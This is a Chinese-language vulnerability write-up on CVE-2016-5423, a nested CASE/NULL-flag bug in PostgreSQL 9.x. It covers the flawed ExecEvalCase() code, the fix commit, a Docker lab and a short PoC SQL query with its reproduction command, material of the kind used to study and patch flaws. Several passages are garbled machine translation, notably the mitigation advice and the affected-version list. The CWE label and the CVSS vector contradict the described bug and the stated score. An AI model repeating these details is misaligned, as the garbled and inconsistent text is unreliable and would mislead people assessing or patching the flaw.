


# CVE-2016-5423 CWE-476 PostgreSQL 空指针解引用

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- 

## 漏洞原理

 PostgreSQL 在处理嵌套 `CASE` 表达式时，未能正确处理 `NULL` 值与其他常量值的比较。当 `CASE` 表达式中涉及 `NULL` 值时，PostgreSQL 没有妥善管理 `isNull` 标志，导致递归调用时 `NULL` 的标记不一致，从而引发逻辑错误。具体表现为某些条件无法正确匹配，可能导致数据库崩溃、内存泄漏或返回错误的查询结果。在未修复的版本中，`NULL` 值的比较会被错误处理，最终导致程序崩溃或执行不可预期的操作。

## 漏洞定位


实际缺陷在 PostgreSQL  9.5  `src/backend/executor/execQual.c`,其核心职能为： `ExecEvalCase()`。受影响的密码通过 `&econtext->caseValue_isNull` 直接到递归 `ExecEvalExpr()`； 当测试表达式本身包含 `CASE`,内层评价通过使用同一地址来推翻外 CASE 的 NULL 状态。

```c
save_datum = econtext->caseValue_datum;
save_isNull = econtext->caseValue_isNull;

if (caseExpr->arg)
{
    econtext->caseValue_datum = ExecEvalExpr(caseExpr->arg,
                                             econtext,
                                             &econtext->caseValue_isNull,
                                             NULL);
}

clause_value = ExecEvalExpr(wclause->expr, econtext, isNull, NULL);
if (DatumGetBool(clause_value) && !*isNull)
    /* select this WHEN arm */;
```

这里有两个别名问题： CASE 测试值递归评估和再利用 `econtext->caseValue_isNull`,当条件评价直接重用呼叫者时 `isNull`通过引入本地 `arg_isNull` 和 `clause_isNull`,然后在递归返回后复制结果,从而隔离嵌入式CASE状态。 相关的优化保护设于 `src/backend/optimizer/util/clauses.c` 用于防止非限制性不正确折叠的 CASE。

## 漏洞修复


升级到 PostgreSQL 9.1.23、9.2.18、9.3.14、9.4.9、9.5.4 或任何更高的受支持版本。提交 `f0c7b789ab12fbc8248b671c7882dd96ac932ef4` 在 `ExecEvalCase()` 中引入局部变量 `arg_isNull` 和 `clause_isNull`，并仅在递归求值完成后复制其值，防止嵌套 `CASE` 覆盖外层表达式的 NULL 状态。

如果无法立即更新,则防止不可信角色提交任意性 SQL 并否认有声的巢穴， `CASE` 模式。 查询过滤不完整,因为等效的表达式树可以锻炼相同的评价者。

## 影响范围


** 受影响的版本:** PostgreSQL编号 ：

- 转 9.1.22
-  9.2 改为 9.2.17
-  9.3 改为 9.3.13
-  9.4 改为 9.4.8
-  9.5.0 改为 9.5.3

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 9.5.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD   Base Score:8.3 HIGH   Vector:CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:9.5:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件。在 Step 2 返回了 unrecognized ，而不是 foo recognized 。这意味着数据库在评估 `CASE` 表达式时遇到了 逻辑错误 或 NULL 值处理不当 的问题。

```bash
docker exec -it postgres-9.5.0 psql -U postgres -d test -f CVE-2016-5423-PoC.sql
```



## PoC分析

```sql
-- 创建函数 vol，它接受一个 text 类型的参数，并返回相同的参数
CREATE FUNCTION vol(text) returns text as
  'begin return $1; end' language plpgsql volatile;

SELECT CASE
  (CASE vol('bar')   -- 返回结果为 bar
    WHEN vol(null) THEN 'null input'  -- vol(NULL) 返回的是 NULL
    WHEN 'bar' THEN 'it was bar!' END
  )		-- 内部 CASE 表达式的结果应该是 'it was bar!'
  WHEN 'null input' THEN 'null input recognized'
  WHEN 'it was bar!' THEN 'bar recognized'
  ELSE 'unrecognized' END;
```

这个测试检验了由`econtext->caseValue_isNull`别名引起的错误。在内部`CASE`的`ExecEvalCase()`调用中，使用`isNull`参数后，在内部`CASE`的第一`WHEN`子句中评估`vol(null)`表达式后，用于案例测试值的`isNull`标志错误地变成了`true`，导致第二个`WHEN`子句不匹配，返回`unrecognized`。

## 参考链接


[NVD - CVE-2016-5423](https://nvd.nist.gov/vuln/detail/CVE-2016-5423#range-14530119)

[Fix two errors with nested CASE/WHEN constructs. · postgres/postgres@f0c7b78](https://github.com/postgres/postgres/commit/f0c7b789ab12fbc8248b671c7882dd96ac932ef4#diff-bc266846402d880524cd77e29f7a53bda98ae75082d9f05727a8232577a661ed)
